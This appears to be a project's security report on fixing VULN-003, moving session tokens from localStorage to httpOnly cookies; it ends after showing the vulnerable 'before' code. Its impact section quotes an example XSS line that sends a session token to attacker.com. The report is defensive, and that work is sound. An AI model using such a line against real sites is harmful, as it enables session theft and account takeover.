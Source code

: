 # Security Phase 3 Implementation Complete

**Date**: 2025-10-28
**Status**: ✅ **PHASE 3 COMPLETE - 100% VULNERABILITIES FIXED**

---

## Overview

This document summarizes the completion of Phase 3 security fixes, addressing the final MEDIUM severity vulnerability from the Security Review (2025-10-24).

**Phase 3 focused on VULN-003**: Migrating session tokens from localStorage to httpOnly cookies for maximum XSS protection.

---

## Phase 3 Vulnerability Fixed

### ✅ VULN-003: Session Token in localStorage (MEDIUM → CRITICAL FIX)

**Status**: **COMPLETE**

**Problem**:
- Session tokens stored in localStorage are accessible via JavaScript
- Vulnerable to XSS attacks (if any XSS vulnerability exists anywhere in the app)
- Persistent storage (doesn't expire when browser closes)
- Can be stolen by malicious scripts injected through XSS

**Security Impact**:
- If an attacker finds any XSS vulnerability, they can execute:
  ```javascript
  // Attacker's malicious script
  fetch('https://attacker.com/steal?token=' + localStorage.getItem('sessionToken'))
  ```
- Complete account takeover possible with stolen session token
- Token remains valid for 7 days (long attack window)

---

## Implementation Details

### Architecture Change: localStorage → httpOnly Cookies

**Before (VULNERABLE)**:
```typescript
// Frontend stores token in localStorage
localStorage.setItem('sessionToken', token);

// Frontend manually adds token to every request
config.headers.Authorization = `Bearer ${token}`;
```
